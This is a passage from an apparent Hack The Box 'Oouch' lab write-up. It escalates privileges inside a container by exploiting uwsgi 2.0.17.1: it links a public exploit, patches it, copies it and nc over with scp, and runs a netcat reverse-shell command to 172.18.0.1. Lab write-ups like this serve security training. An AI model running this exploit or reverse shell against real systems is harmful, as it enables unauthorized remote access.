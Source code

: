 ```bash
import dbus
            bus = dbus.SystemBus()
            block_iface = dbus.Interface(block_object, dbus_interface='htb.oouch.Block')
```

We see that it is using the dbus interface and we try a few commands but none work as we are not privelaged enough to run them.

we see that uwsgi.ini is running as www-data when we run `ps -aux` so we can take a further look at this.

we check the version number by running 
```bash
qtc@aeb4525789d8:/code/oouch$ uwsgi --version
2.0.17.1
```
We search for exploits of this verison and we come accross this exploit on github

[https://github.com/wofeiwo/webcgi-exploits/blob/master/python/uwsgi_exp.py](https://github.com/wofeiwo/webcgi-exploits/blob/master/python/uwsgi_exp.py)

We change line 18-19
```python
if sys.version_info[0] == 3: import bytes
    s = bytes.fromhex(s) if sys.version_info[0] == 3 else s.decode('hex')
```
and replace that with:
```python
s = bytes.fromhex(s)
```

We cannot build our exploit in docker so we head back to our ssh as qtc and upload the files there using wget from our local machine.

We then transfer the exploit and `nc` as we will want to get a connection back on our shell via `scp`.

```bash
qtc@oouch:/tmp$ scp -i /home/qtc/.ssh/id_rsa exploit.py qtc@172.18.0.2:/tmp
exploit.py                                                                                               100% 3658     8.8MB/s   00:00    
qtc@oouch:/tmp$ scp -i /home/qtc/.ssh/id_rsa /bin/nc qtc@172.18.0.2:/tmp
nc 
```

Make sure to chmod +x them before transferring otherwise it wont work.


Now that we have everything we need we will run the command.
```bash
qtc@aeb4525789d8:/tmp$ python exploit.py -m unix -u /tmp/uwsgi.socket -c "/tmp/nc -e /bin/bash 172.18.0.1 1234"
[*]Sending payload.
```

Now open up another ssh session as qtc and start the listener and we get a connection back in a few seconds.
